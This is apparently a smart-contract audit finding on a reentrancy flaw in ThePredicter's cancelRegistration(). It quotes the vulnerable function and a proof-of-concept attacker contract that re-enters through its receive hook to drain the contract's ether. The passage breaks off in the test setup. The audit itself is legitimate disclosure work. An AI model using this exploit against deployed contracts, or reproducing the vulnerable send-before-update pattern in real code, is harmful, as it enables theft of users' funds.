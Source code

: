 


# H02: Reentrancy in cancelRegistration() can lead to funds draining
## Summary
`cancelRegistration()` in `ThePredicter.sol` allows not approved users to withdraw their entrance fee, but due to a reentrancy vulnerability in the function, all balance of the contract can be drained
## Vulnerability Details

`cancelRegistration` does not follow the "Checks-Effects-Interactions" pattern which leads to a reentrancy vulnerability: 
First, we send the ether to the unapproved player and then we update the state. If the recipient of the funds is a malicious contract, it can take advantage of the receive hook and execute the cancelRegistration again until there are enough funds.
```solidity
 function cancelRegistration() public {
        if (playersStatus[msg.sender] == Status.Pending) {
            (bool success, ) = msg.sender.call{value: entranceFee}("");
            require(success, "Failed to withdraw");
            playersStatus[msg.sender] = Status.Canceled;
            return;
        }
        revert ThePredicter__NotEligibleForWithdraw();
    }
```

```solidity
pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol";
import {ThePredicter} from "../src/ThePredicter.sol";
import {ScoreBoard} from "../src/ScoreBoard.sol";

contract MaliciousUser {
    address thePredicter;
    uint256 entranceFee;

    constructor(address _thePredicter, uint256 _entranceFee) {
        thePredicter = _thePredicter;
        entranceFee = _entranceFee;
    }

    function pwn() external {
        ThePredicter(thePredicter).register{value: entranceFee}();
        ThePredicter(thePredicter).cancelRegistration();
    }

    receive() external payable {
        if (thePredicter.balance >= entranceFee) {
            ThePredicter(thePredicter).cancelRegistration();
        }
    }
}

contract ThePredicterPocTest is Test {
    ThePredicter public thePredicter;
    ScoreBoard public scoreBoard;
    address public organizer = makeAddr("organizer");
    address public friend = makeAddr("friend");
    address public stranger = makeAddr("stranger");

```